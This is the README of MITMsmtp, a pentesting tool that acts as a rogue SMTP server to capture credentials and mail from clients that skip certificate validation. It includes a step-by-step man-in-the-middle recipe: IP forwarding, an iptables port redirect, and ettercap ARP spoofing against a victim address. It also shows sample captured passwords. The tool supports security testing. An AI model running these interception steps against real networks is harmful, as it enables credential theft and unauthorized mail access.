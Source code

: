 # MITMsmtp
MITMsmtp is an Evil SMTP Server for pentesting SMTP clients to catch login credentials and mails sent over plain or SSL/TLS encrypted connections. The idea is to catch sensitive emails sent by clients which are not correctly verifying the SMTP servers identity in SSL/TLS mode. MITMsmtp will catch username and password as well as the message itself. This way you might gain access to a companies mail server or catch information like password reset tokens or verification links sent by applications. Using those information you might gain more and more access to a system. MITMsmtp has been built to work together with MITM Attacks like ARP Spoofing to terminate encrypted connections.

MITMsmtp offers a command line tool as well as an open Python3 API which can be used to build own tools for automated pentesting of applications.

## Compatibility
MITMsmtp has been tested against the SMTP client of Thunderbird 60.5.3 and some other SMTP clients.

### Connection Security
MITMsmtp supports the following connection security modes:
* Plaintext
* STARTTLS
* SSL/TLS

### Login Methods
MITMsmtp supports the following login methods:
* PLAIN
* LOGIN

Challenge-Response based authentication methods like CRAM-MD5, NTLM or Kerberos can't be supported as these methods require the server to know the cleartext password.

## Setup
MITMsmtp requires Python3 and setuptools. You might want to install git as well. Use the following command on Debian:

`apt install python3 python3-setuptools git`

Now just clone the MITMsmtp repository:

`git clone https://github.com/RobinMeis/MITMsmtp.git`

Change into MITMsmtp directory and start the installation:

`sudo python3 setup.py install`

That's it!

### Updating
`git pull`

`sudo python3 setup.py install`

## Usage
*This section describes the command line usage. For the API reference, please refer to API section.*

Running `MITMsmtp --help` will give you an overview about the available command line switches:
```
usage: MITMsmtp [-h] [--server_address SERVER_ADDRESS] [--port PORT]
                [--STARTTLS] [--SSL] [--certfile CERTFILE] [--keyfile KEYFILE]
                [--log LOG] [--disable-auth-plain] [--disable-auth-login]
                [--print-lines]

MITMsmtp is an Evil SMTP Server for pentesting SMTP clients to catch login
credentials and mails sent over plain or SSL encrypted connections.

optional arguments:
  -h, --help            show this help message and exit
  --server_address SERVER_ADDRESS
                        IP Address to listen on (default: all)
  --port PORT           Port to listen on (default: 8587)
  --STARTTLS            Enables and requires STARTTLS Support (default: False)
  --SSL                 Enables SSL Support (default: False)
  --certfile CERTFILE   Certfificate for SSL Mode (default: Default MITMsmtp
                        Certificate)
  --keyfile KEYFILE     Key for SSL Mode (default: Default MITMsmtp Keyfile)
  --log LOG             Directory for mails and credentials
  --disable-auth-plain  Disables authentication using method PLAIN (default:
                        False)
  --disable-auth-login  Disables authentication using method LOGIN (default:
                        False)
  --print-lines         Prints communication between Client and MITMsmtp
                        (default: False)
```

When running `MITMsmtp` without any parameters it will start an unencrypted SMTP server on port 8587 on all interfaces. Pointing Thunderbird or any other SMTP client will give you the ability to test MITMsmtp. Please keep in mind that the default port MITMsmtp differs from the SMTP default port.

As soon as a client has logged in, you will get the following information:

```
=== Login ===
Username: user@example.com
Password: SuperSecureAndUncrackablePassword
```

After the client has transmitted it's message, you will get basic information about the message:

```
=== Complete Message ===
Username  : user@example.com
Password  : SuperSecureAndUncrackablePassword
Client    : [192.168.178.42]
Sender    : user@example.com
Recipients: recipient-a@example.com
            recipient-b@example.com
```

If you want to get the full message, you have to enable logging.

### Logging
Running `MITMsmtp --log logdir` will enable logging. Please make sure that the directory exists. MITMsmtp will create n+1 files while n is the amount of received messages. Each mail will be written into a new file like it has been received. Additionally all received credentials are stored in `credentials.log`.

### Encryption
Some clients fallback to unencrypted mode if you don't offer SSL/TLS. Always make sure to test this! For clients which don't fallback, you may want to test the encrypted mode. Please keep in mind, that a correctly configured client won't be vulnerable to this attack. You will be unable to fake a trusted certificate for a validated common name and thus the client will stop connection before sending credentials. However some clients don't implement proper certificate validation. This is where this attack starts.

#### STARTTLS
STARTTLS is available for MTIMsmtp. When enabled it will enforce STARTTLS.

To use MITMsmtp with the example certificates run `MITMsmtp --STARTTLS --certfile certs/MITMsmtp.crt --keyfile certs/MITMsmtp.key`.

#### SSL/TLS
To run MITMsmtp in SSL mode you need a certificate and the according key. You can use the example in certs/. For some clients you might need to generate own certificates to bypass certain validation steps.

To use MITMsmtp with the example certificates run `MITMsmtp --SSL --certfile certs/MITMsmtp.crt --keyfile certs/MITMsmtp.key`.

## MITM
This section shows the usage of MITMsmtp if you are able to intercept the victims traffic.

### ARP Spoofing
ARP Spoofing is one way to get between Victim and Router. In case you have the ability to modify your routers settings, you might skip this step. There are many other ways to perform MITM Attacks like DHCP Race-Conditions or DNS Spoofing. These instructions are just a basic idea how to use MITMsmtp. First of all you need the victims and the routers IP address. Make also sure that your client is connected to the same subnet.

In this example the Routers IP will be *192.168.42.1* and the Victims IP will be *192.168.42.24*. Run the following commands as root.

First of all we are going to enable forwarding mode:

`sysctl -w net.ipv4.ip_forward=1`

To make sure that out victim doesn't find a way around us, block ICMP redirects:

`sysctl -w net.ipv4.conf.all.send_redirects=0`

Next we create a port forwarding rule from SMTP default port 587 to MITMsmtp. Please make sure that your victim uses port 587 and adjust if needed.

`iptables -t nat -A PREROUTING -p tcp --destination-port 587 -j REDIRECT --to-port 8587`

To start ARP Spoofing you will need ettercap. Run the following command and replace the IP addresses according to your setup:

`ettercap -T -M arp /192.168.42.24/ /192.168.42.1/`

Finally you can fire up MITMsmtp:

`MITMsmtp --log log/`

#### Limitations
As we perform a port forward, MITMsmtp can't determine the original packet destination. This means that MITMsmtp can't log the real SMTP server name or IP. If you need these information, just run wireshark while catching mails using MITMsmtp and filter for `tcp.port==587` or `dns`. This way you will be able to get the domain name as well as the original IP.

## Reference
[1] https://tools.ietf.org/html/rfc5321

[2] http://www.samlogic.net/articles/smtp-commands-reference-auth.htm

[3] https://tools.ietf.org/html/rfc3207
